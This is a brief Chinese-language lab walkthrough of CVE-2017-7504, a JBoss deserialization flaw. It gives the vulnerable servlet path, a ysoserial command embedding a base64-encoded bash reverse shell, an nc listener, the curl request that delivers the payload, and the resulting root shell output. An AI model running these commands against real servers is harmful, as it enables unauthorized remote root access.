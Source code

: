 ```yaml
---
description: >-
  Red Hat JBoss Application Server（AS，也称WildFly）是美国红帽（Red
  Hat）公司的一款基于JavaEE的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。 Red
  Hat Jboss AS 4.X及之前的版本中的JbossMQ实现过程的JMS over HTTP Invocation Layer的H
---
```


# CVE-2017-7504

存在漏洞页面

```
/jbossmq-httpil/HTTPServerILServlet
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

利用ysoserial生成一个反弹shell的payload

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

监听本地端口

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
```

用curl发送该payload

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 49216
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@03fa6b275e3e:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

